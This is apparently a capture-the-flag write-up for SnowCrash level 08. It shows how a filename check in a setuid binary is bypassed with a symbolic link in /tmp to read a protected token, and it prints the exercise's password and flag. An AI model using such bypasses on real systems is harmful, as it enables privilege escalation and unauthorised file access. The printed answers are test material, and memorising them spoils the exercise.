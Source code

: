 # Level 08

## file list in home
```zsh
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ ltrace ./level08 
__libc_start_main(0x8048554, 1, 0xbffff7f4, 0x80486b0, 0x8048720 <unfinished ...>
printf("%s [file to read]\n", "./level08"./level08 [file to read]
)                                        = 25
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

## execute level08
```zsh
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token 
You may not access 'token'
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                          = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                                      = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

probleme concernant le nom de fichier!
donc, on peut le faire avec symbolick link!


## create folder and symbolic link file without "token"
```zsh
level08@SnowCrash:~$ mkdir /tmp/level08
level08@SnowCrash:/tmp/level08$ ln -s ~/token symbolic-link
level08@SnowCrash:/tmp/level08$ ls -l
total 0
lrwxrwxrwx 1 level08 level08 24 Apr 14 16:28 symbolic-link -> /home/user/level08/token
``` 

## execute token file with /tmp/level08/symbolic-link
```zsh
level08@SnowCrash:/tmp/level08$ cd
level08@SnowCrash:~$ ./level08 /tmp/level08/symbolic-link 
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ ./level08 /tmp/level08/symbolic-link 
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password: 
"Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f"
flag08@SnowCrash:~$ su level09
Password: 
level09@SnowCrash:~$
```
